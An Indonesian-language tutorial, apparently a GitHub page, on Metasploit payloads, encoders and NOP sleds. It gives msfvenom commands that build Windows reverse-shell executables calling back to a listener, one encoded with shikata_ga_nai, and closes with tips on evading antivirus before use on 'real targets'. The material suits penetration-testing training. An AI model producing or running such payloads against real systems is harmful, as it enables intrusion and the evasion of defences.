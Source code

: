 # Memahami Payload, Encoder, dan NOPs

## A. Apa Itu Payload?

Payload adalah kode yang dijalankan di sistem target setelah berhasil dieksploitasi. Dalam konteks Metasploit, payload bisa bersifat:

- **Reverse Shell** (membuka koneksi dari target ke attacker)
- **Bind Shell** (membuka port di target untuk diakses attacker)
- **Meterpreter** (payload canggih Metasploit dengan banyak fitur)

**Contoh Payload Populer:**

| Payload |	Keterangan |
|:--:|:--:|
| `windows/meterpreter/reverse_tcp` |	Memberi shell Meterpreter via koneksi TCP balik |
| `linux/x86/meterpreter_reverse_http` | Meterpreter pada Linux via HTTP |
| `cmd/unix/reverse_bash`	| Shell balik |

## B. Apa itu Encoder?

Encoder adalah teknik untuk menyandikan payload agar tidak terdeteksi oleh antivirus atau menghindari karakter terlarang (bad characters)

**Mengapa Perlu Encoder?**

- Menghindari deteksi signature oleh antivirus
- Menyesuaikan dengan karakterisasi buffer (misal: tidak boleh ada `\x00`)

**Contoh Encoder:**

| Encoder	| Platform | Deskripsi |
|:--:|:--:|:--:|
| `x86/shikata_ga_nai`	| x86 | Encoder polymorphic yang sulit dideteksi |
| `cmd/echo` | Windows |Menyandikan payload sebagai perintah echo |
| `generic/none` | All | Tidak menggunakan encoding |

**Contoh Penggunaan Encoder:**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.8 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o shell_encoded.exe
```

**Keterangan:**

- `-e`: Encoder yang digunakan
- `-i`: Jumlah iterasi encoding

## C. Apa itu NOPs (No Operation)?

NOP adalah instruksi kosong (tidak melakukan apa-apa) yang digunakan untuk:

- Menstabilkan eksekusi shellcode
- Mengisi buffer sebelum shellcode
- Menghindari crash karena posisi shellcode bergeser

**NOP sled**

NOP sled adalah serangkaian instruksi NOP yang ditempatkan sebelum shellcode agar eksekusi tetap mencapai payload meskipun offset tidak akurat.

```
\x90\x90\x90\x90...[NOP]...\xCC\xE8... [payload]
```

Di Metasploit, NOP generator dapat ditambahkan saat membuat payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -n 16 -f exe > payload.exe
```

**Keterangan:**

- `-n 16`: Menambahkan 16 byte NOP sled

## D. Relasi Payload, Encoder, dan NOPs

Ketiganya bekerja sama untuk membentuk payload yang:

- Efektif
- Tidak terdeteksi
- Stabil saat dieksekusi di memori target

## Tips Tambahan

- Gunakan encoder `x86/shikata_ga_nai` dengan iterasi `3–5x` untuk menghindari AV.
- Tambahkan NOP jika payload crash saat buffer overflow.
- Uji payload dengan antivirus scanner sebelum digunakan ke target real.
